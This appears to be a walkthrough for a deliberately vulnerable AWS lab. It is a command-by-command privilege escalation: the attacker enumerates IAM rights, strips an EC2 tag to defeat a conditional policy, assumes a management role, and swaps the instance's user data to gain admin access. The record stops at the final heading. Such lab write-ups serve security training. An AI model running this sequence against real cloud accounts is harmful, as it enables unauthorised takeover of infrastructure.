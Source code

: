 ### Enumerate the user and roles we have access to
```
iamactionhunter --collect --profile cg_dev_user
iamactionhunter --config write_actions --account <account_id> --user cg_dev_user
iamactionhunter --config dangerous_iam --account <account_id> --user cg_dev_user
iamactionhunter --config write_actions --account <account_id> --role cg_ec2_management_role
```

### Use the start role to enumerate ec2 instances
```
aws ec2 describe-instances --region us-west-2 --profile cg_dev_user
aws ec2 describe-instances --region us-west-2 --profile cg_dev_user --filter "Name=tag:Name,Values=cg_admin_ec2" 
```



### Delete the tag on the EC2 to satify the permission condition
```
aws ec2 delete-tags --region us-west-2 --profile cg_dev_user --resources <instance_id> --tags Key=Name
```

### Assume the cg_ec2_management_role
```
aws sts assume-role --role-arn arn:aws:iam::<account_id>:role/cg_ec2_management_role --role-session-name blah --profile cg_dev_user
```

### Now use the cg_ec2_management_role to stop the instance
```
aws ec2 stop-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Use the cg_ec2_management_role to modify the userdata (https://hackingthe.cloud/aws/exploitation/local-priv-esc-mod-instance-att/)
```
aws ec2 modify-instance-attribute --region us-west-2 --profile cg_ec2_management_role --instance-id <instance_id> --user-data file://userdata.txt
```

### Use the cg_ec2_management_role to start the instance
```
aws ec2 start-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Access the EC2 and gain admin privileges